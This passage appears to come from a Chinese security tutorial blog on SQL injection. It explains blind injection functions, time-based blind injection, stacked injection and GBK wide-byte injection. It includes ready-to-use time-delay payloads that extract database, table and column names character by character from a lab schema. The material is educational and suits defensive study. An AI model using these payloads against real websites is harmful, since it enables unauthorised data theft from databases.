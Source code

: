 `使用 length()函数 判断查询结果的长度`
`使用 substr()函数 截取每一个字符，并穷举出字符内容`

```
# 盲注常用到的sql函数
length()        # 返回查询字符串的长度
mid(a, b, c)    # 截取字符串，从b位置开始(从1开始)，截取字符串a的c位
substr(a, b, c) # 截取字符串，从b位置开始，截取字符串a的c长度
left(a,b)       # 截取字符串，从左侧截取a的前b位
ord()           # 返回字符的ASCII码
ascii()         # 返回字符的ASCII码
```

**● 时间盲注**
时间盲注又称延迟注入，适用于页面不会返回错误信息，只会回显一种界面，其主要特征是利用`sleep`函数让mysql执行时间变长，制造时间延迟，通过页面的响应时间来判断条件是否正确。通常与`if(expr1,expr2,expr3)`语句结合使用（如果expr1是True，则返回expr2，否则返回expr3）

```
# 判断闭合符号：由于页面无法返回正确或错误的值，所以只能通过if加sleep函来判断闭合
?id=1' and if(1=2, 1, sleep(3))--+        # 判断是否是单引号闭合，如果是页面会延迟响应3秒
?id=1" and sleep(3)--+                    # 也可以直接使用and拼接sleepl来判断
```

当判断完是何种闭合方式之后，可以结合`length()`、`ascii()`和`substr()`等函数去进一步判断数据库名长度，数据库名

```
# 常见的注入语句(Payload)
?id=1' and if(length(database())>8, sleep(2), 0) --+               # 判断数据库名长度
?id=1' and if(ascii(substr(database(),1,1))=115,sleep(2),0) --+    # 通过ASCII码，判断数据库的第一个字母，然后通过改变截取的字符，进一步判断库名
# 判断表名
?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))=101,sleep(2),0) --+
# 判断列名
?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name="users" and table_schema=database() limit 0,1),1,1))=105,sleep(2),1) --+

```

**3）、 堆叠注入**
**● 堆叠注入原理**
`Stacked injection`汉语翻译过来后，称为堆查询注入，也称之为堆叠注入，顾名思义，就是将语句堆叠在一起进行查询。在PHP中，`mysql_multi_query()`支持多条sql语句同时执行，分号;是用来表示一条sql语句的结束。当我们在`;`结束一个sql语句后继续构造下一条语句，使其执行，就构成了堆叠注入。
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/71d3bf9d61848e26371c5d32ab8a7460.png)

**● 堆叠注入的局限性**
堆叠注入的触发条件很苛刻，在实际中遇到的很少，其可能受到API或者数据库引擎，又或者权限的限制只有当调用数据库函数支持执行多条sql语句并且目标未对`;`号进行过滤时才能够使用，在PHP中利用`mysqli_multi_query()`函数就支持多条sql语句同时执行，但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是`mysqli_ query()`函数，其只能执行一条语句，分号后面的内容将不会被执行，所以可以说堆叠注入的使用条件十分有限

**4）、 宽字节注入**
**● 什么是宽字节**
字符大小为一个字节时为窄字节，比如 `ASCII` 编码(0-127)，字符大小为两个及以上的字节为宽字节。英文26个字符所以1个字节就够用了，而汉字字符数太多，一个字节显然不够用。宽字节注入利用Mysql的一个特性，Mysql在使用`GBK`编码的时候，会认为两个字符是一个汉字（前一个ASCII码要大于128，才到汉字的范围）。

**● 宽字节注入原理**
为了防止网站被SQL注入，一些网站开发人员会做一些防护措施，其中最常见的就是对一些特殊字符进行转义，在PHP中，使用`magic_quotes_gpc`(魔术引号)或者 `addslashes()`函数，对用户提交的数据，如有：post、get、cookie过来的数据增加转义符`\` 以确保这些数据不会引起程序错误。当我们输入的引号被转义之后只当作了一个字符串，无法实现包裹字符串的作用了。如何让转义`\`失去转义的作用，此时，就可以使用宽字节注入。
宽字节编码就是一个字符可能是好几个字节，例如，我们中国的汉字由偏旁和部首组成，如“和”由“禾”+“口” 组成，那么，“禾”+“口”=“和”，这个过程的两个字组成了一个字，既没有了禾的意思也没有了口的意思。变成了和的意思。那让转义符\失去转义作用的方法，类似于这个汉字的构成，可以说是异曲同工之妙。 `\`转义通过URL编码是`%5c`。那么找到一个与 `%5c` 的另一半，让他们组成一个新字符不就OK了吗？哪个字节编码能让他们组成一个新字符呢？很多，eg：%df …，%df%5c。这两个在一块就组成了一个新的字符，准确的说是一个汉字，那么我们输入的引号的特殊意义就存在，可以是包裹字符串的了。
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/c3e87e6a385d8013041c586ec76ae001.png)
